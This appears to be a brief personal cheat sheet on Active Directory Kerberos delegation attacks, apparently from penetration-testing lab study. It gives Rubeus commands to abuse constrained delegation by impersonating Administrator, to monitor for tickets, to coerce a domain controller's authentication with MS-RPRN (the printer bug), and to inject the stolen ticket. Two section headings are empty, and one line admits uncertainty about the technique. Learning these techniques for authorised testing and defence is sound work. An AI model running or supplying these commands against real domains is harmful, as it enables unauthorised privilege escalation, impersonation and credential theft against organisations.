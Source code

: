 # Delegations

### Constrained Delegation

With the account with the permission's hash launch rubeus to ask a tgt as administrator

{% code overflow="wrap" %}
```powershell
./Rubeus.exe s4u /user:<USER> /aes256:<AES256 HASH> /impersonateuser:Administrator /msdsspn:"<FOUND SERVICE>" /ptt
```
{% endcode %}

### Unconstrained Delegation



### Resource Based Constrained Delegation



### Monitor for Delegation

idk if it's really a delegation&#x20;

Launch rubeus

```powershell
./Rubeus.exe monitor /targetuser:<TARGET MACHINE>$ /interval:5 /nowrap
```

&#x20;Now use MS-RPRN to force authentication from dcorp-dc$(Machine account)

```powershell
./MS-RPRN.exe \\<TARGET MACHINE> \\<LISTENER MACHINE>
```

Rubeus is triggered

Copy the ticket and use it with rubeus on the local machine

```powershell
./Rubeus.exe ptt /ticket:<TICKET>
```
